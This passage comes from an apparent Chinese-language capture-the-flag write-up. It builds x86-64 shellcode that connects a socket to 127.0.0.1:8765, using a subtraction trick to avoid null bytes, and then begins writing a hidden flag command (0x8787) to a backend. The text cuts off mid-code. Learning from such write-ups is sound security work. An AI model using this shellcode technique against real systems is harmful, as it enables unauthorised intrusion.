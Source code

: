        就會對應到底下註解的地方，包含IP / Post / Internet Family之類的，所以我們就可以按照這個structure建構出來，short是2 bytes，而根據前面的byte code會發現`AF_INET`是\x0002，也就是兩個bytes，第二個是port也是兩個bytes，8765轉成hex就是0x223d；最後一個是IP address，總共是4 bytes的in_addr structure，如果想詳細了解in_addr的結構可以看[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/ns-winsock2-in_addr?source=docs)，但具體來說就是把`127.0.0.1`→`7f000001`，所以全部貼在一起並且轉成little endian的話就會變成==0x100007f3d220002==，但有一個非常大的問題，如果直接把該值push進到stack並取\$rsp放到\$rsi的話，整個流程會有太多的\x00，因此@cs-otaku提供了一個非常有創意的想法，就直接用扣的，反正只要最後放到stack的值是對的就好了
        ```python
        # struct sockaddr_in info;
        # info.sin_family = AF_INET;
        # info.sin_addr.s_addr = inet_addr("127.0.0.1");
        # info.sin_port = htons(8765);
        # connect(fd, (struct sockaddr *)&info, sizeof(info));
        connect = """
            xor rax, rax
            mov al, 0x2a

            mov rdi, r8

            mov rsi, 0xffffffffffffffff
            mov r9, 0xfeffff80c2ddfffd
            sub rsi, r9
            push rsi
            mov rsi, rsp

            xor rdx, rdx
            mov dl, 0x10

            syscall
        """
        ```
    3. Write
        這一段主要是置換原本不應該出現的command，因為按照原本程式的流程，只會有CMD_Register→0x1 / CMD_Login→0x2 / CMD_GetFolder→0x11 / CMD_NewNote→0x12等這四種，分別會在對應的操作下傳到backend後讓他做對應的操作，現在我們要把cmd.cmd改成0x8787，之後用write把這個command寫到對應的fd中，如同其他command也那樣操作一樣
        ```python
        # struct Command cmd;
        # cmd.cmd = 0x8787; // #define CMD_Flag 0x8787
        # write(fd, &cmd, sizeof(cmd));
        write = """
            xor r9, r9
            mov r9w, 0x8787
            push r9
